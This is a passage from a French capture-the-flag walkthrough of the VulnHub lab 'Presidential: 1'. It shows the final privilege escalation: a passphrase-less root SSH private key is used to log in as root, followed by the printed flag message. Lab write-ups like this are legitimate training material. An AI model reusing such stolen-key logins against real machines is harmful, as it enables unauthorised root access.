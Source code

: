Aucun mot de passe n'étant attaché à la clé privée on peut donc se connecter :  

```plain
[admin@votenow ~]$ ssh -p 2082 -i root/.ssh/id_rsa root@127.0.0.1
Last login: Sun Jun 28 00:42:56 2020 from 192.168.56.1
[root@votenow ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@votenow ~]# cat root-final-flag.txt 
Congratulations on getting root.

 _._     _,-'""`-._
(,-.`._,'(       |\`-/|
    `-.-' \ )-`( , o o)
          `-    \`_`"'-

This CTF was created by bootlesshacker - https://security.caerdydd.wales

Please visit my blog and provide feedback - I will be glad to hear from you.
```

Mission accomplie !](https://www.vulnhub.com/entry/presidential-1,500/)

*Published December 26 2021 at 16:51*
